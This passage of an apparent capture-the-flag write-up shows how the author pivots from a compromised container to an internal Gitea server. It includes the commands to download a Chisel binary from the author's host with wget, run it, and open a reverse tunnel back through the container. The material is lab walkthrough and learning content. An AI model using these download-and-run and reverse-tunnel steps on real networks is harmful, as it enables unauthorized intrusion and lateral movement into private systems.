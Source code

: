     
    
    /app # wget 172.17.0.1:3000 -O-
    Connecting to 172.17.0.1:3000 (172.17.0.1:3000)
    writing to stdout
    <!DOCTYPE html>
    <html lang="en-US" class="theme-">
    <head>
            <meta charset="utf-8">
            <meta name="viewport" content="width=device-width, initial-scale=1">
            <title> Gitea: Git with a cup of tea</title>
    ...[snip]...
    

It’s an instance of [Gitea](https://gitea.io/en-us/), an open source Git
management platform.

### Access Gitea

#### Tunnel

I’ll use [Chisel](https://github.com/jpillora/chisel) to create a tunnel from
my host through the container to access Gitea. First, I’ll download the latest
linux amd64 binary from the [release
page](https://github.com/jpillora/chisel/releases), and host it on my box
using a Python webserver (`python3 -m http.server 8000`). I’ll fetch that file
to the container:

    
    
    /tmp # wget http://10.10.14.6:8000/chisel_1.7.7_linux_amd64
    Connecting to 10.10.14.6:8000 (10.10.14.6:8000)
    saving to 'chisel_1.7.7_linux_amd64'
    chisel_1.7.7_linux_a 100% |********************************| 7888k  0:00:00 ETA
    'chisel_1.7.7_linux_amd64' saved
    

I’ll run the binary in server mode on my box:

    
    
    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/09/30 12:47:55 server: Reverse tunnelling enabled
    2022/09/30 12:47:55 server: Fingerprint umHn2gs0l5nc8jxdT2k/Ib4llURm3snZQNzX4WkaERw=
    2022/09/30 12:47:55 server: Listening on http://0.0.0.0:8000
    

I need to give it a port to listen on (`-p 8000`) because the default port of
8080 is already in use by Burp. `--reverse` allows me to create reverse
tunnels.

Now I’ll connect with `chisel` from the container:

    
    
    /tmp # chmod +x chisel_1.7.7_linux_amd64 
    /tmp # ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:3000:172.17.0.1:3000
    2022/09/30 12:52:19 client: Connecting to ws://10.10.14.6:8000
    2022/09/30 12:52:20 client: Connected (Latency 87.429342ms)
    